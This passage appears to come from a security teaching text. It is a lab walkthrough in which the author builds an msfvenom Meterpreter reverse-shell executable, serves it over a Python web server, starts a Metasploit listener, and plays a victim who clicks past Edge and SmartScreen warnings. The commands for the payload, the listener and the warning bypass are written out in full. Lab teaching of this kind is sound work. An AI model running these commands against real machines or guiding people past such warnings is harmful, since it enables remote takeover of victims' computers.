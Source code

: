 >  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.4.167 LPORT=9001 -f exe -o runme.exe
>  ```
>  ![[../images/10/rev_activity_msfvenom.png|Payload Generated On Kali|600]]
>  I will need the victim to download this executable, so I set up a Python HTTP webserver using the following command.
>  ```bash
>  python3 -m http.server 80
>  ```
>  ![[../images/10/rev_activity_webserver.png|Python Web Server To Deliver Payload|600]]
>  But before I have the victim download the file, I need to set up Metasploit with a listener to catch the reverse shell.  I launch another terminal in the Kali VM and run the following command to start Metasploit.
>  ```bash
>  sudo msfdb run
>  ```
>  ![[../images/10/rev_activity_start_msf.png|Starting Metasploit|600]]
>  Once Metasploit is started, I load the multi handler module which will be used to start a listener.
>  ```bash
>  use exploit/multi/handler
>  ```
>  ![[../images/10/rev_activity_load_handler.png|Load Multi-Handler Module In Metasploit|600]]
>  Notice the information message that the `generic/shell_reverse_tcp` payload was automatically selected.  This does not match the payload that I already created using Msfvenom, so I set the correct payload with the following command.
>  ```
>  set payload windows/x64/meterpreter/reverse_tcp
>  ```
>  ![[../images/10/rev_activity_payload_set.png|Setting Windows Payload In Multi-Handler|600]]
>  With the correct payload set, I next need to configure its listening host and port to match the Msfvenom payload attributes used earlier.
>  ```
>  set LHOST 192.168.4.167
>  set LPORT 9001
>  ```
>  ![[../images/10/rev_activity_configure_listener.png|Configuring Listener|600]]
>  The last step for setting up the listener is to run it with either the run or the exploit command.
>  ```
>  run
>  ```
>  ![[../images/10/rev_activity_run_listener.png|Run Configured Multi-Handler|600]]
>  With the Msfvenom payload executable generated, HTTP server ready to serve it, and the Metasploit multi handler listener running, I am ready to spring the attack on the victim.  Jumping back to the Windows VM and pretending to be the victim, I open a browser and navigate to `192.168.4.167` to see the files being served by the attacker.  I press the `runme.exe` file to start the download.
>  ![[../images/10/rev_activity_files_3.png|Victim Payload Download|500]]
>  Microsoft Edge immediately detects that the file is an executable and blocks the download.  To overcome this, I tell Edge to keep the file regardless.
>  ![[../images/10/rev_activity_edge_bypass.png|Bypassing Edge Warning|400]]
>  As soon as I press the Keep option, Microsoft SmartScreen identifies that the downloaded executable has not been signed with a reputable certificate.  I tell SmartScreen to "Keep anyway" under the "Show more" dropdown to complete the download.
>  ![[../images/10/rev_activity_smartscreen_1.png|Edge SmartScreen Warning|350]]
>  Finally, the runme.exe file is in my downloads folder.
>  ![[../images/10/rev_activity_downloaded.png|Runme.exe In Downloads Folder|350]]
>  Double clicking the file immediately triggers another SmartScreen warning, this time because the executable has the "mark of the web" in its properties.  Clearly, Microsoft has learned about this attack vector and has put many obstacles in place to prevent a user from running malicious software from the internet!
>  ![[../images/10/rev_activity_smartscreen_2.png|SmartScreen Block At Running|300]]

[^1]: Missouri gov. calls journalist who found security flaw a “hacker,” threatens to sue - Ars Technica; Oct 14th, 2021; https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/